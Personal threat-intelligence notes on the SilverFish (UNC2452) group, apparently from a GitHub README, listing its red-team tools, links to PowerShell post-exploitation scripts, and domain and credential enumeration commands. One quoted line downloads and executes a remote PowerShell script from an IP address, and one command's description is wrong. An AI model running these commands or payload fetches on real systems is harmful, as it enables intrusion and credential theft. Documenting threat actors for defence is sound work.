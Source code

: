 # This is my notes about the SilverFish(UNC2452) Group


## The SilverFish group uses publicly available red teaming tools such as Empire, cobalt strike, koadic loaders, and, in several cases PowerSploit and Mimikatz post exploitation Powershell scripts. Additionally, there are lots of specially crafted Powershell, BAT, CSPROJ, JavaScript and HTA files that are mainly used for enumeration and data exfiltration.

## TOOLS:

- https://github.com/zerosum0x0/koadic

- Besides the domain fronting method, the SilverFish group uses the ”mallable C2 profile”
features of Cobalt Strike. The following image shows the Cobalt Strike beacon shellcode
emulation results, fronted domain, and actual host value. The chosen mallable C2 profile [22]
artifacts can easily be identified.

- https://github.com/threatexpress/malleable-c2/blob/master/jquery-c2.4.3.profile

- msbuild.exe utility and .csproj files are frequently used to load shellcode in
red teaming engagements.

- https://www.powershellempire.com/

- https://github.com/gentilkiwi/mimikatz

- https://github.com/p3nt4/Invoke-SocksProxy


### Powershell Direct Links:

- raw.githubusercontent.com/Arvanaghi/SessionGopher/master/SessionGopher.ps1
- raw.githubusercontent.com/clymb3r/PowerShell/master/Invoke-Mimikatz/Invoke-Mimikatz.ps1
- raw.githubusercontent.com/device33/PowerView.ps1/master/PowerView.ps1
- raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1


## Most Used Commands:

- nltest /dclist - > Lists all domain controllers in the domain.

- nltest /domain_trusts - > Returns a list of trusted domains

- cmdkey /list - > Displays the list of stored user names and credentials

- net group ”domain admins” /domain   - > Lists all domain controllers in the domain.

- dir c:\\programdata - > Prints the contents of ”programdata” directory (used for enumerating the installed software)

- powershell -nop -enc %Trimmed...% - > Executes the BASE64 encoded powershell 	command/script.


## Other basic commands: 

- dir \"c:\\program files\"
- dir \"c:\\program files (x86)\\\"
- dir \"c:\\ProgramData\\\"

- cmd \/c powershell -nop exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http:\/\/176.10.118.136:80\/pwrvw.ps1'); Droller -OperatingSystem *server* > c:\\ProgramData\\z_servers.txt


## some good resources:

https://docs.microsoft.com/en-us/windows/win32/amsi/how-amsi-helps

https://attack.mitre.org/techniques/T1090/004/


## Reference: 

- https://www.prodaft.com/m/uploads/SilverFish_TLPWHITE.pdf







